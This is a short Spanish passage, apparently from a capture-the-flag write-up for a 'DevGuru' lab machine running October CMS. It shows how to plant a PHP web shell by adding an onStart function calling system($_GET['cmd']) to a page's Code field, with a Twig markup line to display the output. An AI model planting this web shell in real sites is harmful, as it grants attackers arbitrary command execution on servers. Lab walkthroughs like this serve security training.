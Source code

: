 Utilizar alguna página ya creada, por ejemplo **Home** y crear la siguiente función en el campo de **Code**:

```bash
function onStart() {
	$this->page['getShell'] = system($_GET['cmd']); 
}
```

![""](/assets/images/vh-devguru/devguru12.png)

Ahora en la parte de **Markup**, colocamos la siguiente línea:

```bash
{{ page.this.getShell }}
```

![""](/assets/images/vh-devguru/devguru13.png)

Guardamos los cambios y accedemos la previsualización.
